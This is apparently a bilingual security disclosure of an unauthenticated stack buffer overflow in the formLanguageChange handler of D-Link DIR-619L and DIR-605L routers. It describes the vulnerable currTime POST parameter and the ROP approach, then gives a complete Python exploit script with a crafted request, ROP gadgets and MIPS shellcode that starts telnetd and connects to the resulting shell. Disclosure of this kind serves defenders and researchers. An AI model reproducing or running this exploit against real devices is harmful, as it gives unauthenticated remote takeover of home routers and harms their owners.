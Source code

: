 Dlink model DIR-619L, the latest firmware 2.06B1, There is a stack overflow vulnerability that does not require authentication
This can cause remote code execution
download link: ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
Vulnerability location: file:  /bin/boa  function: formLanguageChange
The attacker calls this function by sending a post packet to the http://ip/goform/formLanguageChange page.
Post parameter currTime length is not verified。After using sprintf directly，Caused a stack overflow。
The same problem exists with the latest firmware 2.12B1 on the DIR-605L.
download link:ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/

post package

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/5.png)

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/6.png)

Dlink型号DIR-619L最新固件2.06B1上存在不需要验证身份的栈缓冲区溢出漏洞。
可造成远程任意代码执行。
下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
漏洞位置发生在/bin/boa程序的formLanguageChange函数。
攻击者通过向http://ip/goform/formLangageChange页面发送post包调用此函数。
Post参数currTime长度未经校验使用sprintf写入栈上。并在之后websRedirect页面跳转函数中通过jr ra。控制代码流程。
 

将shell code存放在栈上
通过rop跳转执行sleep函数后跳转至shellcode。执行telnetd程序完成利用。
型号DIR-605L最新固件2.12B1上同样存在该问题。
下载地址ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/
 

DIR-619l.py
``` python
import requests
import sys
import struct
from pwn import *
def inter():
	p=remote('192.168.0.1',23)
	p.interactive()
def syscmd1(a):
	p=remote('192.168.0.1',80)
	z=len(a)
	payload=''
	payload+='POST /goform/formLanguageChange HTTP/1.1\r\n'
	payload+='Host: 192.168.0.1\r\n'
	payload+='Connection: keep-alive\r\n'
	payload+='Accept-Encoding: gzip, deflate\r\n'
	payload+='Accept: */*\r\n'
	payload+='User-Agent: python-requests/2.18.4\r\n'
	payload+='Content-Length: '+str(z+9)+'\r\n'
	payload+='Content-Type: application/x-www-form-urlencoded\r\n'
	payload+='\r\n'
	payload+='currTime='
	payload+=a
	p.send(payload)
	p.recvuntil('</html>')
	p.close()

base1=0x2aba9500-0x22500
###shellcode
shellcode =''
shellcode += struct.pack(">I",0x24060666)
shellcode += struct.pack(">I",0x04d0ffff)
shellcode += struct.pack(">I",0x2806ffff)
shellcode += struct.pack(">I",0x27bdffe0)
shellcode += struct.pack(">I",0x27e41005)
shellcode += struct.pack(">I",0x2484f01f)
shellcode += struct.pack(">I",0xafa4ffe8)
shellcode += struct.pack(">I",0xafa0ffec)
shellcode += struct.pack(">I",0x27a5ffe8)
shellcode += struct.pack(">I",0x24020fab)
shellcode += struct.pack(">I",0x0101010c)
shellcode += 'aaaa'+'/usr/bin/telnetd'+chr(0)
s0=struct.pack(">I",base1+0x2C794)
s1=struct.pack(">I",base1+0x2C794) ### rop2
s2=struct.pack(">I",base1+0x24b70)
s3=struct.pack(">I",base1+0x2bdac)###rop3
s4=struct.pack(">I",base1+0x2bdac)
###rop
payload1='a'*0x167+s0+s1+s2+s3
payload1+=struct.pack(">I",base1+0x25714)  ###rop1
payload1+='a'*0x1c+s0+s1+s2+s3+s4
payload1+=struct.pack(">I",base1+0x24d70)  ###sleep
payload1+='a'*0x14
payload1+=struct.pack(">I",0x24910101)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x0220c821)
payload1+=struct.pack(">I",0x0320f809)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",base1+0x2bda0) ###rop4
payload1+='a'*0x20+shellcode
if __name__ == "__main__":
	syscmd1(payload1)	
	inter()
``` 

